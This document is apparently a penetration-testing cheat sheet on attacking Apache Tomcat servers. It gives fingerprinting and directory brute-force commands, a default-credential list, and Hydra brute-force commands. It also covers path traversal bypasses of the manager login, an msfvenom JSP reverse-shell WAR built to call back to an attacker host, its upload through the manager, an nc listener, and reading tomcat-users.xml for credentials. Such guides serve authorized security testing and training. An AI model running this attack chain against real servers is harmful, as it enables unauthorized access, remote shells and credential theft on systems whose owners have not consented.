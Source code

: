 # Apache Tomcat

## Theory

Apache Tomcat (called "Tomcat" for short) is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can also run.

## Practice

#### Enumeration

{% tabs %}
{% tab title="Fingerprinting" %}
We can attempt to trigger an error on the website as a method of fingerprinting. If the error is similar as the one below, this indicates that the website is running Tomcat.

```bash
$ curl http://target.com/DoesNotExist
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Version Identification" %}
To find the version of Apache Tomcat, a simple command can be executed:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

This will search for the term "Tomcat" in the documentation index page, revealing the version in the title tag of the HTML response.
{% endtab %}

{% tab title="Manager Files Location" %}
Identifying the exact locations of **`/manager`** and **`/host-manager`** directories is crucial as their names might be altered. A brute-force search is recommended to locate these pages.

```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

Below are common directories for Apache Tomcat.

```
/examples
/examples/jsp/cal/login.html
/examples/jsp/error/error.html
/examples/jsp/snp/snoop.jsp
/examples/servlet/HelloWorldEXample
/examples/servlet/JndiServlet
/examples/servlet/RequestHeaderExample
/examples/servlet/RequestInfoExample
/examples/servlet/RequestParamExample

/host-manager

/manager
/manager/jmxproxy/?qry=STUFF
/manager/status
/manager/status/all
# We can execute commands in /manager/text/ directory
/manager/text/{command}?{parameters}
/manager/text/deploy?path=/foo
/manager/text/list
/manager/text/resources
/manager/text/serverinfo
/manager/text/vminfo
```
{% endtab %}

{% tab title="Username Enumeration" %}
&#x20;It's possible to enumerate usernames through metasploit:

{% hint style="warning" %}
It only works for Tomcat versions **older than 6**
{% endhint %}

```bash
msf> use auxiliary/scanner/http/tomcat_enum
msf> set TARGETURI /manager  # depending on the website
```
{% endtab %}
{% endtabs %}

#### Credentials

{% tabs %}
{% tab title="Default Credentials" %}
The **`/manager/html`** directory is particularly sensitive as it allows the upload and deployment of WAR files, which can lead to code execution. This directory is protected by basic HTTP authentication, with common credentials being:

```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
{% endtab %}

{% tab title="Brute Force Attack" %}
To attempt a brute force attack on the manager directory, we may use one of the following commands:

```bash
# FFUF
ffuf -u https://tomcat:FUZZ@example.com/manager -w passwords.txt -fs 140

# Hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f <TARGET> http-get /manager/html
```
{% endtab %}
{% endtabs %}

#### Common Vulnerabilities <a href="#common-vulnerabilities" id="common-vulnerabilities"></a>

{% tabs %}
{% tab title="Path Traversal Exploit" %}
In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`
{% endtab %}

{% tab title="Password Backtrace Disclosure" %}
Accessing `/auth.jsp` may reveal the password in a backtrace under fortunate circumstances.
{% endtab %}

{% tab title="Double URL Encoding" %}
The CVE-2007-1860 vulnerability in `mod_jk` allows for double URL encoding path traversal, enabling unauthorized access to the management interface via a specially crafted URL.

In order to access to the management web of the Tomcat go to: `pathTomcat/%252E%252E/manager/html`
{% endtab %}

{% tab title="/examples" %}
Apache Tomcat versions 4.x to 7.x include example scripts that are susceptible to information disclosure and cross-site scripting (XSS) attacks. These scripts, listed comprehensively, should be checked for unauthorized access and potential exploitation. Find [more info here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp
{% endtab %}
{% endtabs %}

#### Remote Code Execution (RCE)

{% tabs %}
{% tab title="Uploading WAR file " %}
If you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

{% hint style="warning" %}
You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).
{% endhint %}

First create a war file using Msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local-ip> LPORT=80 -f war -o shell.war
```

Then upload this file.

```bash
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"
```

Start a listener in local machine.

```bash
sudo rlwrap nc -lvnp 80
```

Now access to `https://example.com/shell`. We should get a shell.
{% endtab %}
{% endtabs %}

#### Post-Exploitation

{% tabs %}
{% tab title="Crential Access" %}
If we are in the target system, we can retrieve information about credentials.

```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/" %}
